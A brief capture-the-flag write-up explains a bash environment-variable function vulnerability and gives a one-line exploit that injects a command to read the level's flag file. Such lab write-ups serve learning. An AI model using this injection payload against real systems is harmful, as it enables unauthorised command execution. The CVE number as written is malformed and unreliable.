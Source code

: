 # Writeup #
This level is all about CVE-20140-6271

The CVE is a bash vulnerability that by exporting bash function as environment variable, you can execute commands.

```bash
env x='() { :;}; /bin/cat flag' ./shellshock
```

[LINK TO WIKIPEDIA ABOUT THE CVE](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
